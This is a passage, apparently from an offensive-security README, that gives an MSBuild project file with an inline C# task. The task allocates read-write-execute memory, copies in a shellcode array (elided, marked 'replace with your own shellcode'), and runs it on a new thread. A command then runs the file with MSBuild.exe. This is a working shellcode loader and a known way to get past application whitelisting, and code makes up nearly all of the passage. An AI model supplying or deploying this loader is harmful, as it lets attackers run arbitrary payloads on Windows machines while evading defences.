 ```xml
		using Microsoft.Build.Framework;
		using Microsoft.Build.Utilities;
		public class ClassExample :  Task, ITask
		{         
		  private static UInt32 MEM_COMMIT = 0x1000;          
		  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
		  [DllImport("kernel32")]
		    private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
		    UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
		  [DllImport("kernel32")]
		    private static extern IntPtr CreateThread(            
		    UInt32 lpThreadAttributes,
		    UInt32 dwStackSize,
		    UInt32 lpStartAddress,
		    IntPtr param,
		    UInt32 dwCreationFlags,
		    ref UInt32 lpThreadId           
		    );
		  [DllImport("kernel32")]
		    private static extern UInt32 WaitForSingleObject(           
		    IntPtr hHandle,
		    UInt32 dwMilliseconds
		    );          
		  public override bool Execute()
		  {
			//replace with your own shellcode
		    byte[] shellcode = new byte[] { 0xfc,...,0xd5 };
		      
		      UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
			MEM_COMMIT, PAGE_EXECUTE_READWRITE);
		      Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
		      IntPtr hThread = IntPtr.Zero;
		      UInt32 threadId = 0;
		      IntPtr pinfo = IntPtr.Zero;
		      hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
		      WaitForSingleObject(hThread, 0xFFFFFFFF);
		      return true;
		  } 
		}     
	      ]]>
	      </Code>
	    </Task>
	  </UsingTask>
	</Project>
```

- Can build and execute using MSBuild
```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\bad.xml
```

